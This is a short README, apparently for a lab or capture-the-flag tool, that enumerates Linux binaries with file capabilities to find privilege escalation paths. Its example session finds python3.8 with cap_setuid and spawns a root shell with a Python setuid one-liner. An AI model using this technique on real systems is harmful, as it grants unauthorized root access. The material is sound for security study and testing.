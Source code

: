 # cap
# Linux Privilege Escalation using Capabilities

script for searching PATH or parameters for any executables Capabilities applied to them.
This may lead to privelage esclastion.

for more read -> https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

#Example
```
nathan@cap:~$ ./caps.sh 
find: ‘—’: No such file or directory
find: ‘/home/nathan/—’: No such file or directory
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'                                                                                                                    
# id                                                                                                                                                                                        
uid=0(root) gid=1001(nathan) groups=1001(nathan)

```
